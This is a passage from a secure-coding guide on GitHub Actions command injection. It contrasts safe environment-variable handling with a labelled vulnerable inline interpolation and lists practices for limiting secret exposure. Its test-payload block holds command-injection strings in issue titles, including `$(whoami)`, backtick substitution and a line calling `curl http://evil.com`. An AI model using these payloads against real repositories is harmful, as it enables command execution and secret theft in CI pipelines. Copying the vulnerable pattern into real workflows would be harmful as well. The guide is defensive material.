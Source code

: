 ### Testing Security

**Issue**: Need to verify security measures work

**Solution**:
- Create test issues with malicious titles
- Monitor workflow execution
- Check for unexpected behavior

Test payloads:
```
test"; echo "INJECTED"; echo "
test$(whoami)test
test`whoami`test
test$SECRET
test; curl http://evil.com;
```

## Best Practices

### Always Use Environment Variables

For ANY user-controlled input:

```yaml
# SECURE
- name: Safe handling
  env:
    USER_INPUT: ${{ github.event.issue.title }}
  run: echo "$USER_INPUT"

# VULNERABLE
- name: Unsafe handling
  run: echo "${{ github.event.issue.title }}"
```

### Trust No User Input

Assume all user-provided data is malicious:

- Issue titles and bodies
- Pull request titles and descriptions
- Commit messages
- Comments
- Branch names
- Tag names
- Usernames (in some contexts)

### Minimize Secret Exposure

Limit secret access and exposure:

```yaml
jobs:
  process:
    runs-on: ubuntu-latest
    steps:
      # Process user input WITHOUT secrets
      - name: Process input
        env:
          TITLE: ${{ github.event.issue.title }}
        run: |
          echo "Processing: $TITLE"

  deploy:
    needs: process
```